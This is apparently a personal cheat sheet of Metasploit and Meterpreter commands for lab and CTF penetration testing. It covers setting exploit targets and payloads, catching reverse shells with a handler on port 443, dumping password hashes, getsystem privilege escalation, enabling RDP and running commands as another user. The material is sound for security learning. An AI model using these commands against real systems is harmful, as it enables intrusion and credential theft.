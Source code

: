 # Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button. 

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or  `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work. 

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands
Frequently used commands, mostly to enumerate a victim machine:

```
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # execute a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
ps          # list running processes
migrate     # move the active process to a designated PID
getpid      # get the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forward a port on the victim to a remote service
route       # view or modify routing table
getprivs    # get as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

### Local exploits

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

#### Useful tools
Check for Windows exploits:
```
meterpreter > run /post/multi/recon/local_exploit_suggester
```
Get a remote desktop:
```
meterpreter > run post/windows/manage/enable_rdp
```
Run a command as a different user:
```
background
use post/windows/manage/run_as
[set username and password]
set CMDOUT true # output results of command
set CMD "type C:\Users\Administrator\Desktop\root.txt"
run
```
There are [manual ways to run commands as different user](https://stackoverflow.com/questions/12903629/how-do-i-run-a-program-from-command-prompt-as-a-different-user-and-as-an-admin) but I haven't tried them because I'm lazy.
